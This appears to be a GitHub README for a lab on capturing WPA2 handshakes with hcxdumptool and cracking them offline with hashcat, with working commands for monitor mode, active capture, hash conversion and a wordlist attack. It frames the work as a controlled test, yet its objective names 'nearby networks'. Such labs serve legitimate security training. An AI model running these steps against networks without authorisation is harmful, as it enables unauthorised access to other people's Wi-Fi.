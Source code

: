 # 🔐 Wi-Fi Handshake Capture Lab

This lab demonstrates how to capture WPA/WPA2 handshakes using `hcxdumptool` and prepare the captured hashes for cracking with `hashcat`.

---

## 🎯 Objective

Capture WPA2 handshakes from nearby networks using a wireless adapter in monitor mode and convert them into a format that can be used for offline password cracking.

---

## 🛠 Tools Used

- Kali Linux
- Alfa AWUS036ACM (MT7612U)
- `hcxdumptool`
- `hcxpcapngtool`
- `hashcat`

---

## 🧪 Steps

1. **Enable monitor mode** on the Alfa adapter:
   ```bash
   ip link set wlan0 down
   iw dev wlan0 set type monitor
   ip link set wlan0 up
# wifi-handshake-capture
/wifi-handshake-capture/README.md

2. **Capture handshakes** with `hcxdumptool`:
   ```bash
   hcxdumptool -i wlan0 -o capture.pcapng --enable_status=15 --active_beacon

 3. **Convert to Hashcat format*
     hcxpcapngtool -o handshake.hccapx capture.pcapng

 4. **Crack using hashcat
      hashcat -m 22000 handshake.hccapx /path/to/wordlist.txt
---

## ✅ Result

Successfully captured a WPA2 handshake in a controlled test network. The password was cracked using a known value from the wordlist.

---

## 📁 Files

- `capture.pcapng`: Raw capture
- `handshake.hccapx`: Converted hash file
- `crack-output.txt`: Example hashcat output



